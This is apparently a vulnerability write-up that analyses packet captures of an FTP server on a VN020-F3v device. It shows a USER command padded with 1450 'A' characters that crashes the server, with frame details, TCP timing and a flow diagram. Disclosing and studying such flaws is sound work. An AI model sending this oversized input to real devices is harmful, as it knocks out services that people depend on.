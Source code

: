 ```plaintext
No.     Time           Source                Destination           Protocol Length Info
     77 2.467891       192.168.1.1           192.168.1.21          FTP      99     Response: 220 FTP server (GNU inetutils 1.4.1) ready.
```

**Frame 77 Details:**

- **Src IP**: 192.168.1.1
- **Dst IP**: 192.168.1.21
- **Protocol**: FTP
- **Payload Length**: 99 bytes

```plaintext
No.     Time           Source                Destination           Protocol Length Info
     78 2.471668       192.168.1.21          192.168.1.1           FTP      1511   Request: USER AAAAAAAAAA...AAAAAAAAA (1450 'A's)
```

**Frame 78 Details:**

- **Src IP**: 192.168.1.21
- **Dst IP**: 192.168.1.1
- **Protocol**: FTP
- **Payload Length**: 1450 bytes of 'A's appended to the `USER` command.

### TCP Stream Analysis

```plaintext
Frame Analysis:
1. Initial Banner (Frame 77)
   - TCP Flags: PSH, ACK
   - Window Size: 8192
   - Normal FTP banner behavior
   
2. Exploit Packet (Frame 78)
   - TCP Flags: PSH, ACK
   - Window Size: 65490
   - Payload Length: 1457 bytes (Including USER command)
   - No fragmentation (DF bit set)
   
3.  Timing:
   - Only 3.777ms between banner and crash
   - No 331 Password Required response
   - No TCP RST or FIN observed
```

**Diagram: TCP Stream Flow**

```
+----------------+                      +------------------------+
|    Client      |                      |   VN020-F3v FTP Server |
+----------------+                      +------------------------+
        |                                        |
        |-------- CONNECT (TCP SYN) ------------>|
        |<------- CONNECT ACK (TCP SYN-ACK) -----|
        |-------- ACK (TCP ACK) ---------------->|
        |                                        |
        |<------- 220 FTP Banner ----------------|
        |                                        |
        |-------- USER + 1450 'A's (1457B) ----->|
        |                                        |
        |      [CRASH NO FURTHER RESPONSE]       |
        |                                        |
        +----------------------------------------+
```

